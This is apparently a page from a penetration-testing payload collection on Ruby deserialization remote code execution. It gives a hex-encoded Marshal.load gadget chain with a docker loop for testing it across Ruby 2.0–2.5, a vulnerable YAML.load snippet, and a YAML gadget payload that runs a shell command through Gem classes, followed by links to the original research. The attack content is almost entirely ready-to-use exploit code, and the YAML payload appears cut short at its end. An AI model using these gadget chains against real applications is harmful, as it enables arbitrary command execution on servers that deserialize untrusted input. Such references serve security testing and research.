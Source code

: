 # Ruby Deserialization

## Marshal.load

Script to generate and verify the deserialization gadget chain against Ruby 2.0 through to 2.5

```ruby
for i in {0..5}; do docker run -it ruby:2.${i} ruby -e 'Marshal.load(["0408553a1547656d3a3a526571756972656d656e745b066f3a1847656d3a3a446570656e64656e63794c697374073a0b4073706563735b076f3a1e47656d3a3a536f757263653a3a537065636966696346696c65063a0a40737065636f3a1b47656d3a3a5374756253706563696669636174696f6e083a11406c6f616465645f66726f6d49220d7c696420313e2632063a0645543a0a4064617461303b09306f3b08003a1140646576656c6f706d656e7446"].pack("H*")) rescue nil'; done
```

## Yaml.load

Vulnerable code
```ruby
require "yaml"
YAML.load(File.read("p.yml"))
```

Exploitation code
```ruby
--- !ruby/object:Gem::Requirement
requirements:
  !ruby/object:Gem::DependencyList
  specs:
  - !ruby/object:Gem::Source::SpecificFile
    spec: &1 !ruby/object:Gem::StubSpecification
      loaded_from: "|id 1>&2"
  - !ruby/object:Gem::Source::SpecificFile
      spec:
```


## References

- [RUBY 2.X UNIVERSAL RCE DESERIALIZATION GADGET CHAIN - elttam, Luke Jahnke](https://www.elttam.com.au/blog/ruby-deserialization/)
- [Universal RCE with Ruby YAML.load - @_staaldraad ](https://staaldraad.github.io/post/2019-03-02-universal-rce-ruby-yaml-load/)
- [Online access to Ruby 2.x Universal RCE Deserialization Gadget Chain - PentesterLab](https://pentesterlab.com/exercises/ruby_ugadget/online)
